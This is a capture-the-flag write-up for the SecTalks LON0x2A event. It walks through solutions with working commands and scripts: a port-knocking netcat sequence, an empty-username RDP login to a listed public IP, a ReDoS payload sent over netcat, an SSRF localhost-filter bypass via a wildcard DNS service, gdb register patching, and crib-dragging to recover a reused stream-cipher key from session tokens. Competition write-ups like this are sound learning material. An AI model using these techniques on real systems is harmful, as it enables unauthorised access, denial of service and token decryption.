



# SecTalks LON0x2A

This month's remote CTF was a very fun and diverse series of challenges by [bc](https://github.com/bcaller/).

## Knock knock (150pts)

>[options]
>   logfile = /dev/stdout
>   interface = eth0
>
>[openFLAG]
>   sequence = 107,110,111,99:udp,75
>   seq_timeout = 5
>   tcpflags = syn
>   start_command = /open61217.sh %IP%
>   cmd_timeout = 5
>   stop_command = /close.sh %IP%

The challenge title recalls port knocking, the description appearing to be a config for `knockd`, a popular tool for configuring it on a server. `knockd` has a counterpart tool `knock` for performing the knocks on the client-side, however I just used netcat:

```bash
#!/bin/bash

HOST=sectalks-ctf.caller.xyz

nc -z $HOST 107 110 111
nc -uz $HOST 99
nc -z $HOST 75

nc $HOST 61217 
```

## Who's who (250pts)

> Dina Covid is logged into a Windows machine. She's working for Escobar, but the guy I really need to track down is her friend who likes origami.
> Flag is his name (non-standard format)
> (This machine is not mine so don't do anything nasty to it)

I was confused by this challenge at first, until a hint made it click that we were supposed to search Shodan for "Dina Covid".

There's an open RDP port and a user with an Origami icon just out of view:



Looks like we have to connect to the box in order to scroll down. First I issued the following command but it just showed a typical Windows login screen:

```
rdesktop -g 100% 201.247.107.140
```

After some trial and error, I found that specifying an empty username would take us to the same page as Shodan, so we could get the name of the Origami friend.

```
rdesktop -g 100% -u "" 201.247.107.140
```

## Hurt my ears (300pts)

> https://bc-ctf.s3.eu-west-2.amazonaws.com/hurt-my-ears.wav

Hidden in the spectogram:



## Whistleblower (350pts)

The text contained a large number of invisible zero-width joiner and non-joiner characters. Replacing them with binary and decoding it revealed the flag.

## REDoS #3 (400pts)

> nc sectalks-ctf.caller.xyz 1234
>
> If the CPU gets hot enough, it will probably throw out a flag.

We have to find a way to cause catastrophic backtracking in the following regex:

```
^(\d\d?)(?:\s+|[-\/])(\w+)(?:\s+|[-\/])(\d+)(?:(?:\s+|:)(\d\d?):(\d\d)(?::(\d\d))?)?\s*([-+]?\d{2,4}|(?![APap][Mm]\b)[A-Za-z]+)?\s*(?:\(\w+\))?\s*$
```

I first found a string that matches the regex:

```
08 May 1945 23:01:00 CET (CET)
```

There's many places we can modify this to destroy the performance of the regex parser. Pick any position after `08 May 1945`, add hundreds of spaces then a non-matching character like `@` and the number of steps the regex takes to run increases exponentially.

This works because of the three separate `\s*` patterns. After the regex processes all the spaces then hits the non-matching character, it has to backtrack through each of the different combinations of matching spaces to `\s*` patterns. With three such patterns, the number of steps required per space is formed by adding the next term from the triangle number sequence to the sum so far: 3, 6, 10, 15, 21... .

Realising that we don't need the extra parts of the string, we can trim down the exploit:

```
python3 -c 'print("08 May 1945" + " " * 2000 + "@")' | nc sectalks-ctf.caller.xyz 1234
```

## endian (450pts)

> ix8ICAMtXs8DAGxmZ2F0LnR4BQDbwYAJDDDAAEz/OZHDnBL/XksaWCpI4iLe7sbtgyifFJC4sZKymE+biUWvRGANEoirvcuSOdvN3VqPMtW/In4bJz/toQBDAAA=

Easy solve with CyberChef: https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)Swap_endianness('Raw',2,true)Gunzip()Swap_endianness('Raw',2,true)&input=aXg4SUNBTXRYczhEQUd4bVoyRjBMblI0QlFEYndZQUpERERBQUV6L09aSERuQkwvWGtzYVdDcEk0aUxlN3NidGd5aWZGSkM0c1pLeW1FK2JpVVd2UkdBTkVvaXJ2Y3VTT2R2TjNWcVBNdFcvSW40Ykp6L3RvUUJEQUFBPQ

## iiiture the Flig (500pts)

A challenge about exiting Vim when your keyboard is broken :D

After trying a few things, I found that hitting `!` twice brings you into command mode, where you can enter `:shell` to drop into bash and cat the flag.

## DiamoNdS r forever (500pts)

> I can't access the flag server from the internet. Annoying. nc sectalks-ctf.caller.xyz 7888

This took me a while to figure out, but seemed to be a challenge where you have to perform a GET on the local webserver. It blocks the obvious interactions:

```
$ nc sectalks-ctf.caller.xyz 7888
Enter URL to GET
http://localhost
Traceback (most recent call last):
  File "/run.py", line 12, in <module>
    assert '.' in parsed.netloc, "Hostname does not contain a dot"
AssertionError: Hostname does not contain a dot

$ nc sectalks-ctf.caller.xyz 7888
Enter URL to GET
http://127.0.0.1
Traceback (most recent call last):
  File "/run.py", line 14, in <module>
    assert any(c not in hexdot for c in parsed.netloc), "Hostname only contains hexademical characters and dots"
AssertionError: Hostname only contains hexademical characters and dots

$ nc sectalks-ctf.caller.xyz 7888
Enter URL to GET
http://7F.0.0.1
Traceback (most recent call last):
  File "/run.py", line 14, in <module>
    assert any(c not in hexdot for c in parsed.netloc), "Hostname only contains hexademical characters and dots"
AssertionError: Hostname only contains hexademical characters and dots
```

However, it seemed happy to GET a hostname like `example.com`. So I took a spare domain and set its A record to point to `127.0.0.1`, an approach that made sense according to the challenge's title.

I got bored of waiting for DNS to propagate and found a website that just resolves to 127.0.0.1, but that hit another error:

```
$ nc sectalks-ctf.caller.xyz 7888
Enter URL to GET
http://localtest.me
Traceback (most recent call last):
  File "/run.py", line 16, in <module>
    assert resolved != "127.0.0.1", "Cannot resolve to localhost"
AssertionError: Cannot resolve to localhost
```

I found an even better website called [xip.io](http://xip.io/) which is acts as a wildcard server that you can make point to any IPv4 address. I've bookmarked this for future use.

```
$ nc sectalks-ctf.caller.xyz 7888
Enter URL to GET
http://0.0.0.0.xip.io/flag.txt
Getting from  0.0.0.0
3
2
1
Server: SimpleHTTP/0.6 Python/3.8.3
Date: Fri, 29 May 2020 00:34:44 GMT
Content-type: text/plain
Content-Length: 31
Last-Modified: Thu, 28 May 2020 16:46:26 GMT


b'flag{knight_admires_situation}\n'
```

## Packet (800pts)

> https://bc-ctf.s3.eu-west-2.amazonaws.com/해커맨.zip

We get a mysterious Korean zipfile with a debug binary inside, which is written in Rust! I loaded it up in Ghidra and the decompilation was so intensive that it made my laptop lockup for a while. Uh oh.



I didn't make progress on reversing it, so decided to run the binary through `strace` instead. This showed that it was listening on UDP `0.0.0.0:34254`.

Sending any data made it crash:

```
$ ./packet

안녕하세요!
thread 'main' panicked at '당신을 위해 깃발이 없습니다', src/main.rs:30:9
note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace.
```

I duly obliged the note by adding the `RUST_BACKTRACE` env var, which uncovered a long traceback. Out of the functions listed it was likely `packet::check_packet_port` causing the panic.

I attached gdb to the running process with `gdb -q ./packet -p $(pgrep packet)` and set a breakpoint on that function and stepped through it. I couldn't quickly figure out which port it wanted, but could force a `cmp` to succeed by modifying the `$rax` register, which would cause the function to return rather than panic.

A new panic appeared in `packet::check_packet_ip`, so I followed a similar process. After hitting continue, the binary spat out the flag.

The gdb commands required were:

```
b *packet::check_packet_port+30
b *packet::check_packet_ip+102
c
set $rax=0x1
c
set $rax=0x0
c
```

A triumph of dynamic analysis over static analysis? Perhaps it was possible to find the flag by reversing the binary, although it didn't look easy. 

## Encrypted Web Token (850pts)

> I recently hacked alice, bob and dave and stole some of their session tokens! Unfortunately all 7 tokens have expired:
> 
> Ylo5T1ZQWjltbktUblIwNEszeWswYVhObzhseUlwU2FoMWZUUjVDUCtiRWRNdXMzSFBkak9CNVljckhkTlZWUlJzL0ZiVDg9
> Ylo5T1ZQWjltbktUblIwNEszeWswYVhObzhseUlwU2FoMWZRU29HUCtiNGRNdXMzSFBkak9CNVljclBkTUZCUlE4TEZiVDg9
> Ylo5T1ZQWjltbktUblIwNEszeWswYVhObzhseUlwU2FoMWZRU29HUCtiNGRNdXMzSFBkak9CNVljcmpkTjFkUlJjSEZiVDg9
> Ylo5T1ZQWjltbktUbmg0emFqV2t1UC80c3N0aWN0ZWE2aERnQXNhWTY4dGNCcXA4RFBkaktoNVBlYkxlUGxkU1ZZdnQ=
> Ylo5T1ZQWjltbktUbmg0emFqV2t1UC80c3N0aWN0ZWE3Z0RxQXNhYjY4dGNCcXA4RFBkaktoNUplYlBmUGxGYlZZdnQ=
> Ylo5T1ZQWjltbktUbUJBbkxUdXEzOEx3cTlCcEtjK0NuelAyUzlTZCthWndIdk51RHZWaE9nNUtjTHJYTTE1YlJ0U2FHZz09
> Ylo5T1ZQWjltbktUblIwNEszeWswYVhObzhseUlwU2FoMWZKVFpxUCtiTWRNdXMzSFBkak9CNVljYkRkTmxWUlJNWEZiVDg9
> 
> Anyway, the token I really want to decrypt is admin's non-expiring token. I think it has a flag actually inside it.
> 
> Ylo5T1ZQWjltbktUblJVOElYZWswYVhPdDloOGN0ZWEyeG5sUlkvTCtPb01HT0o1V3JBL1ZWWklNZCtCZGxjRkRjZlVZMGhWQis4PQ==

I got stuck on this challenge for a while, which was annoying because crypto is my favourite category, and this turned out to be a very well-known attack with ample resources online about it.

We get a bunch of double base64-encoded strings; after decode we see the first 9 bytes are always the same, and many other fragments match with minor differences. They are also of slightly varying lengths.

XORing the first two tokens together, almost all of the result bytes are zero with just a few low ones. This perfectly suits the hypothesis of these being stream ciphers encrypted under the same key. XORing two such ciphertexts gives you the XOR of the plaintexts.

```python
import base64

tokens = """Ylo5T1ZQWjltbktUblIwNEszeWswYVhObzhseUlwU2FoMWZUUjVDUCtiRWRNdXMzSFBkak9CNVljckhkTlZWUlJzL0ZiVDg9
Ylo5T1ZQWjltbktUblIwNEszeWswYVhObzhseUlwU2FoMWZRU29HUCtiNGRNdXMzSFBkak9CNVljclBkTUZCUlE4TEZiVDg9
Ylo5T1ZQWjltbktUblIwNEszeWswYVhObzhseUlwU2FoMWZRU29HUCtiNGRNdXMzSFBkak9CNVljcmpkTjFkUlJjSEZiVDg9
Ylo5T1ZQWjltbktUbmg0emFqV2t1UC80c3N0aWN0ZWE2aERnQXNhWTY4dGNCcXA4RFBkaktoNVBlYkxlUGxkU1ZZdnQ=
Ylo5T1ZQWjltbktUbmg0emFqV2t1UC80c3N0aWN0ZWE3Z0RxQXNhYjY4dGNCcXA4RFBkaktoNUplYlBmUGxGYlZZdnQ=
Ylo5T1ZQWjltbktUbUJBbkxUdXEzOEx3cTlCcEtjK0NuelAyUzlTZCthWndIdk51RHZWaE9nNUtjTHJYTTE1YlJ0U2FHZz09
Ylo5T1ZQWjltbktUblIwNEszeWswYVhObzhseUlwU2FoMWZKVFpxUCtiTWRNdXMzSFBkak9CNVljYkRkTmxWUlJNWEZiVDg9""".split("\n")
target = "Ylo5T1ZQWjltbktUblJVOElYZWswYVhPdDloOGN0ZWEyeG5sUlkvTCtPb01HT0o1V3JBL1ZWWklNZCtCZGxjRkRjZlVZMGhWQis4PQ=="

tokens = [base64.b64decode(base64.b64decode(t)) for t in tokens]
target = base64.b64decode(base64.b64decode(target))


def xor(a, b):
    return [c ^ d for c, d in zip(a,b)]

xored = xor(tokens[0], tokens[1])
print(xored)
> [0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 3, 13, 17, 0, 0, 15, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 2, 0, 5, 5, 0, 5, 13, 0, 0, 0]
```

The challenge gives us the names "alice", "bob", and "dave" as cribs, so let's try crib-dragging! I used [this website](https://lzutao.github.io/cribdrag/) at the time, then wrote up the same approach in Python:

```python
def use_crib(position, crib):
    for t in tokens[1:]:
        xored = xor(tokens[0], t)
        crib_fragment = xor(crib, xored[position:position+len(crib)])
        print("".join(chr(c) for c in crib_fragment))


use_crib(9, b'alice","Expiry":"Wed 27 May 2020 11:11:19')
> alice
> alice
> bob",
> bob",
> dave"
> alice
```

We XOR the first ciphertext with all the others. Then, if we XOR those with the crib in the correct position, we get the plaintext of all tokens in that position.

Because "bob" is two characters shorter than "alice", we now know the next two characters. With this insight into what the next characters after "alice" should be, we fill them in and obtain another two characters in the other tokens! We can drag this crib forward all the way to the end.

After using this to recover the entire plaintext, we can grab the key and XOR it with the target token to get the flag:

```
key = xor(b'{"user":"alice","Expiry":"Wed 27 May 2020 11:11:19"}', tokens[0])
xored = xor(key, target)
```
